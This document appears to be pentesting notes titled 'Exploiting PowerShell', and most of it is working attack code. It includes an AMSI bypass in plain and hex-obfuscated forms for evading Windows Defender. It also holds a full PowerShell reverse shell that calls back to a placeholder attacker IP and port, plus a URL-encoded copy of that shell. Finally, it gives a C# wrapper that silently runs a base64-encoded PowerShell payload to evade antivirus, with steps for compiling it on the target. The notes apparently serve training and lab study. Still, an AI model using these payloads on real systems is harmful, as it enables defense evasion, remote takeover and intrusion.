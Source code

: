 # Exploiting PowerShell

## Disable AMSI

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts!).

One bypass for this:

```powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Note that AMSI uses a regular expression to trap all PowerShell commands that contain AMSI-function related strings, however. This can be bypassed by breaking up the above script into separate variables, or by doing fancy string encoding-and-reassembly tricks.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

Be aware that AMSI bypasses are *per session*, not global!

* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)

## Pure PowerShell Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | %{0};
while (( $i = $stream.Read($bytes, 0, $bytes.Length) ) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	$sendback = ( iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ( [text.encoding]::ASCII ).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush()
}
$client.Close()
```

URL-encoded version (uses `powershell -c "$CODE"`):

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Note that `<IP>` and `<PORT>` need to be appropriately replaced in the above code.

One annoying thing about this reverse shell… There's no initial prompt, so you have no idea whether you've connected or not. but as soon as you enter a command (`whoami`, etc.), a prompt will appear after the output. On the plus side, however, this reverse shell will persist even after the PHP script times out!

* [TryHackMe: Complete Beginner](https://tryhackme.com/path/outline/beginner)

### Relevant Tweet

> Powershell reverse shell back to netcat listener. netcat is not needed on the target box for this technique to work.
> 
> — [rootsecdev (Twitter)](https://twitter.com/rootsecdev/status/1487612184498774019)

## Compile C# Programs to Bypass Anti Virus

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don't have to tweak this code much - C# analysis doesn't seem to be particularly robust for most AV products.)

```c#
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What's the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you're impersonating.

```powershell
$code = @"
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Using Mimikatz](./Using%20Mimikatz.md)
